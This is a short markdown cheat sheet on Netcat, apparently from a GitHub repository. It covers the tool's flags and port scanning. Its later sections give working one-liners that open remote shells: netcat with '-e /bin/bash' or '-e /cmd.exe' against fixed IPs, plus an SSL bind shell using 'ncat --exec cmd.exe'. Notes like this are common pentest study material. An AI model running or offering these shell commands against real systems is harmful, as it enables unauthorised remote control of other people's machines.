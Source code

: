 ## Netcat

 - A simple utility which reads and writes data across network connections, using TCP and UDP protocols.
 - There are few main operations of Netcat
    - Connecting to TCP/UDP port
    - Listening on TCP/UDP port
    - Transferring files with Netcat
    - Remote Administration with Netcat
    - Checking if the port is open or closed

# Parameter table
 - -n : Do not do any dns or service lookups on any specified address, hostname or port
 - -p : source port
 - -v : verbose
 - -z : specifies that nc should just scan for listening daemons without sending any data to them. It is an error to use this option with conjuction to -l option
 - -l : used to specify that nc should listen rather than initate connection to a remote host    

# Port scanning
 - # nc -v -n -z -w 1 192.168.1.2 1-1000

# To get remote access on linux from windows
 - # nc -nv 192.168.23.43 1337 -e /bin/bash
 - # ncat -lnvp 1337   <-- server

# To get remote access on windows from linux
 - # nc -nv 192.168.23.43 1337 -e /cmd.exe
 - # ncat -lnvp 1337     <-- server

# Remote access via ssl and allow method
 - # ncat --exec cmd.exe --allow 192.168.110.184 -vnl 1337 --ssl   <-- server
 - # nc -nv 192.168.23.41 1337 --ssl

 
